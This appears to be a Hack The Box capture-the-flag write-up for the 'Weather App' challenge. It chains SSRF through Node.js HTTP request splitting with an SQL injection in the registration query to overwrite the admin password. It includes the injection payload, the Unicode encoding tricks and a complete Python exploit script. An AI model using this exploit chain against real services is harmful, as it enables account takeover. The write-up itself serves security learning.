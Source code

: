 # ***writeup : weather app hack the box***
when running the app we are are presented with a screen displaying weather statistics for our current location.


![introduction](1.png)

</br>
Let's analyze the provided source code to identify any potential vulnerabilities.

</br>

![source code](2.png)

We were provided with both the Dockerfile and the source code. We will begin by reviewing the source code to understand the overall structure and logic of the application, which appears to be built using Node.js. By examining the routes directory, we can determine the conditions required to obtain the flag.

![login route](3.png)

- Upon gaining admin access, it is possible to access the content of the '/app/flag' directory. To achieve this, our next step is to investigate how to acquire admin user status. The information related to the admin user is located in the "databases.js" file. The admin's credentials are stored in the database, and the password is randomly generated. Since cracking through brute force is not an option, we will focus on obtaining the password through injection techniques.

- after examination of the registration process, we discovered that the user name and password parameters are not properly sanitized before being sent to the database. This suggests that it may be possible to manipulate the information stored in the database through the registration process.

![register process](4.png)

at the same time i examinated the process of isadmin function

![admin function](5.png)

In order to gain admin access, we must determine the admin user's password. The strategy to achieve this is by exploiting a vulnerability in the registration process through injection techniques, which can potentially allow us to obtain or modify the admin user's password. To understand the requirements for accessing the registration interface, we will examine the routes/index.js file.

![register](6.png)

- I have determined that the registration interface can only be accessed from a local network. To exploit this, we will investigate which areas within the local network are susceptible to Server-side Request Forgery (SSRF) attacks.

- digging more in the source code I found this in "challenge\helpers\WeatherHelper.js"

![ENDPOINT](7.png)

I revealed that the URL is controllable. Further examination showed that the submission of the URL must be done in the "/api/weather" endpoint.

![post](8.png)

the objective of this challenge is clear: B
- exploit **SSRF** in at the /api/weather endpoint to make request  to /register
- he /register endpoint accepts a username and password as parameters. By injecting **a SQL injection** payload into these parameters, i will try to change the admin user's password.

Unfortunately, I revealed that the /api/weather endpoint does not support POST requests, so it cannot be used to send a request to 127.0.0.1/register

I was stuck at this moment and didn't know what to do , lately i found out that i haven't read the source code completely. I forgot an important thing the **version** of Node being used

![node version ](9.png)

well after a lot of research i found out that this node version is vulnerable to [ssrf via response splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
</br>well then the exploit is now clear :
- the **endpoint** param will carry our payload in /api/weather
- the payload will conatin **sql injection**

but before that let's analyse the injection method 

```
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```
we need to find a payload with sql to update the table users and change the password of the admin 
</br> well ON CONFLICT clause is the solution and our payload should look like this 

``` 
INSERT INTO users (username, password) VALUES ('admin', 'admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')
```

so let's now go to the final exploit i built the docker file and launched the app locally
keep in mind that SSRF via response splitting use unicode charachters and this is what we will need in our exploit 

 ```
    "\u0120"; space 
    "\u010D"; \r
    "\u010A"; \n
    "%27"; singleInvertedConverted
    "%22"; double inverted comma
```
and this our final exploit :
```
import requests

url = "http://144.126.228.187:32430"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
User = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
Pass = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(User) + len(Pass) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+User + '&password='+ Pass + '\u010D\u010A\u010D\u010AGET\u0120/?done='

city='hello'

country='hello'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json)
```

endpoint param would look like this : 
```
127.0.0.1 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded  
Content-Length: len(User) + len(Pass) + 19

username=parsedUsername & password=parsedPassword 

GET /?done=
```

executing this code and trying to connect in the login as admin:admin adn BINGOOOOO!! 

![flag](15.png)